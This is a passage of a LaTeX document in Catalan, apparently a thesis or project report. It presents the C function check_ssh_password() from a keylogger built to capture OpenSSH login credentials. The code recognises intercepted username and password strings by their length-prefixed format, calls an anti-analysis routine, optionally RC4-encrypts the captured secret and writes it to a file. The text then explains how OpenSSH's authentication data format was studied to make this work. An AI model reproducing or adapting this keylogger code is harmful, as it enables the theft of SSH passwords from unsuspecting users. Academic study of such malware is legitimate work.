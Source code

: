 \begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]

@PYaJ[int] check_ssh_password(@PYaJ[unsigned] @PYaJ[char] @PYbe[*]buff, @PYaJ[int] len){
	@PYaE[// Password string is | uint | chars |]
	@PYay[if] (len @PYbe[>] @PYag[32] @PYbe[|]@PYbe[|] len @PYbe[<] @PYag[5]) @PYay[return] @PYag[0];
	@PYaE[// ptr points to the last char of the string]
	@PYaJ[unsigned] @PYaJ[char] @PYbe[*]ptr @PYbe[=] buff@PYbe[+]len@PYbe[-]@PYag[1];
	@PYay[while] (@PYbe[*]ptr @PYbe[!]@PYbe[=] @PYaT[0x00]) ptr@PYbe[-]@PYbe[-];
	antidebug_obfuscate_analysis(@PYag[11]);
	@PYaE[// Now we must have two bytes 0x00 at left and one < 0x0f at right]
	@PYay[if] ( @PYbe[*](ptr@PYbe[-]@PYag[1]) @PYbe[!]@PYbe[=] @PYaT[0x00] @PYbe[|]@PYbe[|] @PYbe[*](ptr@PYbe[-]@PYag[2]) @PYbe[!]@PYbe[=] @PYaT[0x00]) @PYay[return] @PYag[0];
	@PYaE[// Now bytes from ptr+2 to buff+len-1 has to be exactly *ptr+1]
	@PYay[if] (((buff@PYbe[+]len@PYbe[-]@PYag[1])@PYbe[-](ptr@PYbe[+]@PYag[1])) @PYbe[!]@PYbe[=] @PYbe[*](ptr@PYbe[+]@PYag[1])) @PYay[return] @PYag[0];
	@PYay[if] (useRc4) {
		rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])RC4KEY, @PYay[sizeof](RC4KEY), @PYbe[&]rc4_crypt);
		rc4(ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]), @PYbe[&]rc4_crypt);
	}
	write(@PYag[1], ptr@PYbe[+]@PYag[2], @PYbe[*](ptr@PYbe[+]@PYag[1]));
	putchar(@PYac['\n']);
	@PYay[return] @PYag[1];
}
\end{Verbatim}
    \caption{keylogger.c::check\_ssh\_password()}
    \label{fig:keylogger_check_password}
\end{figure}
      
En la figura \ref{fig:keylogger_check_password} es mostra el tros de codi que comprova que l'string llegit és un string 
d'usuari o de password i en cas de ser-ho ho xifra i ho escriu al fitxer en qüestió, ja que previament 
s'hi ha mapejat el descriptor de fitxer 1. Aquesta funció és cridada quan s'intercepta un string llegit per
un read() per a comprobar que segueix el format que utilitza l'Openssh. \\

Com és evident, per tal de poder desenvolupar aquest keylogger per l'Openssh, ha calgut un gran estudi del 
comportament d'aquest software per ser capaços de detectar com i quan es transfereixen les dades d'usuari i
password. \\

En aquest anàlisis, ens varem donar compte que les dades en clar utilitzades durant l'autenticació, eren
transferides utilitzant un format en concret que és el què aquesta funció comprova. El format en qüestió
és TAG + LONGITUD + DADES, on les dades és un string. Tenint en compte que un password serà normalment més
curt que 255 caràcters, i que la longitud està expressada en 4 bytes, aquesta funció comprova que el format
es compleix. \\

